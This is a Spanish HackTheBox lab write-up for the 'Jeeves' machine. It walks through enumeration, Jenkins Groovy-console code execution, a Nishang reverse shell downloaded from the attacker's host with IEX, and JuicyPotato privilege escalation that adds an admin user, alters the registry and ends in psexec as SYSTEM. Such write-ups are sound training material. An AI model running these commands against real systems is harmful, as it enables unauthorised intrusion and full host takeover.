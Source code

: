 ```yaml
---
layout: post
title: HTB_Jeeves.md
date: 2023/07/10
---
```


# Jeeves {-}

## Introduccion {-}

La maquina del dia 20/08/2021 se llama Jeeves.

El replay del live se puede ver aqui

[![S4vitaar Jeeves maquina](https://img.youtube.com/vi/-o1c3s1QKUg/0.jpg)](https://www.youtube.com/watch?v=-o1c3s1QKUg)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.63
```
ttl: 127 -> maquina Windows

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.63
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.63 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p80,135,445,50000 10.10.10.63 -oN targeted
```


| Puerto | Servicio | Que se nos occure? | Que falta? |
| ------ | -------- | ------------------ | ---------- |
| 80     | http     | Web, Fuzzing       |            |
| 135    | msrpc    |                    |            |
| 445    | smb      | Null session       |            |
| 50000  | http     | Web, Fuzzing       |            |

### Analyzando el SMB {-}

```bash
crackmapexec smb 10.10.10.63
smbclient -L 10.10.10.63 -N
smbmap -H 10.10.10.63 -u 'null'
```

Solo hemos podido comprobar que estamos frente a una maquina windows 10 pero poco mas.

### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.63
```

Estamos en frente de un IIS

#### Analyzando la web con Firefox {-}

Vemos una pagina de busqueda typo Google.

Buscando en internet vemos una routa potencial que seria `/askjeeves/` pero no nos da en este caso

Intentamos ver lo que hay en el puerto **50000** y tenemos un 404. Si le ponemos el `/askjeeves/`, llegamos en 
un panel de administration de Jenkins.



## Vulnerability Assessment {-}

### Vulnerabilidad Jenkins {-}

Teniendo accesso al panel de administracion de Jenkins es un problema ademas si hay en el menu el boton Administrar Jenkins.
Aqui es el caso.

Pinchamos a Administrar Jenkins y despues le damos a Consola de scripts.

Aqui podemos crear Groovy script

```bash
command = "whoami"
println(command.execute().text)
```

Si ejecutamos el commando vemos en la respuesta `jeeves\kohsuke`. Vemos con esto que tenemos capacidad de RCE.

## Vuln exploit & Gaining Access {-}

### Ganando accesso con Jenkins Consola de scripts {-}

1. Descargamos Nishang y modificamos el fichero de reverse shell por tcp

    ```bash
    git clone https://github.com/samratashok/nishang
    cd nishang/Shells
    cp Invoke-PowerShellTcp.ps1 ../../PS.ps1
    cd ../..
    nano PS.ps1
    ```

    Modificamos el fichero PS.ps1 para añadir `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 443` al final del fichero

1. Compartimos un servicio http con python

    ```bash
    python3 -m http.server 80
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Creamos el Groovy script

    ```bash
    command = "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/PS.ps1')"
    println(command.execute().text)
    ```

Ya hemos ganado accesso al systema. `whoami` -> **jeeves\kohsuke**. Ya podemos leer la flag.## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
systeminfo
whoami /priv
```

Aqui vemos que tenemos el `SeImpersonatePrivilege` ;)

Tiramos como siempre de JuicyPotatoe.exe

Lo descargamos en la maquina de atacante y lo enviamos a la victima.

```bash
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
cp /usr/share/sqlninja/apps/nc.exe
python3 -m http.server 80
```

En la maquina victima lo descargamos

```bash
cd C:\Windows\Temp
mkdir privesc
cd privesc
iwr -uri http://10.10.14.7/JuicyPotato.exe -OutFile JuicyPotato.exe
```

Nos creamos un nuevo usuario con el JuicyPotato.

```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user s4vitar s4vitar1234$! /add"
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators s4vitar /add"
```

Si comprobamos con el commando `crackmapexec smb 10.10.10.63 -u 's4vitar' -p 's4vitar1234$!'` Vemos que el usuario no esta pwned.
Aqui tenemos que 

```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL"
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
```

Si comprobamos otra vez con crackmapexec, vemos ahora que el usuario s4vitar esta pwned.
Ya nos podemos connectar con psexec

```bash
impacket-psexec WORKGROUP/s4vitar@10.10.10.63 cmd.exe
Password: s4vitar1234$!

whoami

#Output
nt authority\system

cd C:\Users\Adminstrator\Desktop
dir
type hm.txt
```

Aqui nos dice que la flag no esta aqui. Pensamos a Alternative Data Streams.

```bash
dir /r
more < hm.txt:root.txt
```

;)
